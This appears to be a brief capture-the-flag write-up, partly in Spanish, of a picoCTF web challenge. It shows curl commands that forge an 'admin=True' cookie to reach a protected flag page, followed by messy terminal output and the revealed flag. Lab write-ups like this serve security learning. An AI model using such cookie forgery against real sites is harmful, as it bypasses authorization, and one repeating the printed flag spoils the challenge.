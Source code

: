 Description The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? [https://jupiter.challenges.picoctf.org/problem/13594/](https://jupiter.challenges.picoctf.org/problem/13594/) (link) or [http://jupiter.challenges.picoctf.org:13594](http://jupiter.challenges.picoctf.org:13594/)


![[Pasted image 20250324122614.png]]

se le da inspeccionar 

curl https://jupiter.challenges.picoctf.org/problem/13594/flag

curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: username=yoli; password=yoli; admin===True" | grep pico==
## Solución:
```
yoli@Yoli:~$ curl https://jupiter.challenges.picoctf.org/problem/13594/flag
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
yoli@Yoli:~$ curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: username=yoli; passworyoli@Yoli:~$ curl https://jupiter.yoli@Yoli:~$ curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: username=yoli; password=yoli;  username=yoli; admin=True
> curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: username=yoli; password=yoli; admin=True"
>
> curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: username=yoli; password=yoli;  username=yoli; admin=True
curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: username=yoli; password=yoli; admin=True" | grep pico
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
</body>

</html>curl: (6) Could not resolve host: username=yoli
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   3023      0 --:--:-- --:--:-- --:--:--  3016
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>


picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}
```